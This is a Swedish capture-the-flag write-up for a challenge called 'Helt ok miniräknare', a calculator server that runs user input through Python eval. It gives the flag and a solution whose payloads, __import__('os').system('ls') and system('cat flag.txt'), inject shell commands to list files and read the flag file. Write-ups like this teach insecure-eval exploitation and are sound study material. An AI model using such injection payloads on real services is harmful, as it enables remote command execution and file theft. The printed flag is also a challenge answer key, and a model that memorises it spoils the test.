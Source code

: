 # Pwn: Helt ok miniräknare

- **Skapare:** Herman Karlsson
- **Poäng:** 200
- **Antal lösningar:** 31

## Beskrivning

Evert har lärt sig av sina misstag och har byggt en bättre miniräknare, nu finns det inga buggar alls

I den här uppgiften fick man en ip och port till en server där main.py kördes.

## Flagga

SSM{d0nt_d0_mi5tak3s}

## Lösning

Testa att skriva in lite saker tills något går sönder:
```
Traceback (most recent call last):
  File "main.py", line 14, in <module>
    print(eval(expr))
  File "<string>", line 1, in <module>
NameError: name 'aasf' is not defined

```

Då ser man att det är eval som körs på saker.

Då kan man testa `open("flag.txt")` eller nått, men det går inte.

Istället så kan man köra `__import__("os").system("ls")`, och sedan `__import__("os").system("cat flag.txt")`
